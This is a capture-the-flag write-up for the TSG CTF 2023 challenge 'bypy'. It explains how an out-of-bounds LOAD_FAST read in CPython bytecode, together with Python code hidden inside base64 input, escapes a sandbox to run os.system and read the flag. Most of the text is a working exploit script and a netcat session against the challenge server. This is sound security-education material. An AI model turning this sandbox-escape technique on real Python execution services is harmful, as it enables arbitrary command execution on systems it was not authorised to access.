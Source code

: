 # TSG CTF 2023 - pwn/bypy

- 4 solves / 393 pts
- Author: moratorium08

CPython has out-of-bounds read on LOAD_FAST, so you can get `exec` function through it.

You can also get `src` variable that you sent as a payload encoded base64. 

`base64.b64decode` function ignores non-base64 character, so you can hide the python code into your base64 payload.

I made bytecode that execute `exec(src)` to get shell.

## Exploit

```python
from opcode import opmap, cmp_op, _nb_ops
import dis
import types
import os
import sys
import marshal
from base64 import b64encode, b64decode


code = b""
code += bytes([opmap["LOAD_FAST"], 18])  # "src" variable
code += bytes([opmap["LOAD_FAST"], 51])  # exec function
code += bytes([opmap["LOAD_FAST"], 18])  # "src" variable
code += bytes([opmap["CALL"], 0]) + bytes([0] * 6)  # I don't know why this works well
code += bytes([opmap["RETURN_VALUE"], 0])

# print(code, file=sys.stderr)

codeobj = types.CodeType(0, 0, 0, 0, 0, 0, code, (), (), (), '', '', '', 0, b'', b'', (), ())

encoded = b64encode(marshal.dumps(codeobj)).decode()

for i in range(4):
    try:
        code = "\"" + encoded + "\";print(__loader__.exec_module.__globals__['sys'].modules['os'].system('cat flag*'));#" + "A" * i
        b64decode(code.encode())
    except Exception as e:
        print(e)
        continue
    print(code)

# "4wAAAAAAAAAAAAAAAAAAAAAAAAAA8xAAAAB8EnwzfBKrAAAAAAAAAAAAqQByAgAAAHICAAAA8wAAAADaAHIEAAAAcgQAAAAAAAAAcgMAAAByAwAAAA==";print(__loader__.exec_module.__globals__['sys'].modules['os'].system('cat flag*'));#
```

```
$ nc 34.146.195.242 40003
Give me your source:
"4wAAAAAAAAAAAAAAAAAAAAAAAAAA8xAAAAB8EnwzfBKrAAAAAAAAAAAAqQByAgAAAHICAAAA8wAAAADaAHIEAAAAcgQAAAAAAAAAcgMAAAByAwAAAA==";print(__loader__.exec_module.__globals__['sys'].modules['os'].system('cat flag*'));#
TSGCTF{our_caffeine_knight_slays_python_bytes}
0
Traceback (most recent call last):
  File "/home/user/executor.py", line 49, in <module>
  File "/home/user/executor.py", line 46, in main
SystemError: error return without exception set
```

## Flag

```
TSGCTF{our_caffeine_knight_slays_python_bytes}
```
